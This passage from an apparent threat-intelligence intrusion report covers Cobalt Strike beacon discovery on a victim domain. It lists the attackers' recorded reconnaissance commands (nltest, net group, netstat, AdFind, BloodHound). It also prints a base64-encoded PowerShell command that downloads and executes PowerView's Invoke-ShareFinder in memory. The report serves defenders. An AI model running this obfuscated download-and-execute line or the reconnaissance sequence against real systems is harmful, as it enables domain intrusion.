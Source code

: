 #### Cobalt Strike Beacon Discovery


Cobalt Strike’s `appino` Beacon, ran discovery commands upon initial execution:  

[![enter image description here](https://thedfirreport.com/wp-content/uploads/2021/09/6c82264a32a2c6c712323c38b0361f9170778e18ac026370f36c2faf38590a01 "enter image title here")](https://thedfirreport.com/wp-content/uploads/2021/09/6c82264a32a2c6c712323c38b0361f9170778e18ac026370f36c2faf38590a01)



```
cmd.exe /C ping -n 1<redacted>
cmd.exe /C ping -n 1 <redacted>
cmd.exe /C nltest /domain_trusts&nltest /dclist:&c:\windows\sysnative\nltest /domain_trusts&c:\windows\sysnative\nltest /dclist:
cmd.exe /C netstat -a -n -p tcp | find "ESTAB"
cmd.exe /C net group "domain Admins" /DOMAIN
cmd.exe /C net group "Domain Computers" /DOMAIN
cmd.exe /C ipconfig /all

```

#### Active Directory Domain Discovery


Discovering domain controllers prior to pivoting:  

[![enter image description here](https://thedfirreport.com/wp-content/uploads/2021/09/f88302a0d25c038ec0be1c7490580554910ca33c215b7e97d7ba3803b6451a0e "enter image title here")](https://thedfirreport.com/wp-content/uploads/2021/09/f88302a0d25c038ec0be1c7490580554910ca33c215b7e97d7ba3803b6451a0e)


After discovering and pivoting to the Domain Controller, threat actors used both **AdFind** and **BloodHound** to explore the Active Directory Domain.  

Executing `Adfind` on the Domain Controller:  

[![enter image description here](https://thedfirreport.com/wp-content/uploads/2021/09/d0e8f8134470e183baa64d91015b785c1f4db587e2e16de330bfadab21c2abe3 "enter image title here")](https://thedfirreport.com/wp-content/uploads/2021/09/d0e8f8134470e183baa64d91015b785c1f4db587e2e16de330bfadab21c2abe3)


Evidence of `BloodHound` execution on the Domain Controller:  

[![enter image description here](https://thedfirreport.com/wp-content/uploads/2021/09/f8a41ed862e52a8a240ae0e7e197ca06389099229378e60d56feab93acf96f67 "enter image title here")](https://thedfirreport.com/wp-content/uploads/2021/09/f8a41ed862e52a8a240ae0e7e197ca06389099229378e60d56feab93acf96f67)


The threat actors also executed PowerView `Invoke-ShareFinder` module on the beachhead host:



```
powershell -nop -exec bypass -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgAxADAAOQA2ADYALwAnACkAOwAgAEkAbgB2AG8AawBlAC0AUwBoAGEAcgBlAEYAaQBuAGQAZQByACAALQBDAGgAZQBjAGsAUwBoAGEAcgBlAEEAYwBjAGUAcwBzAA==

```
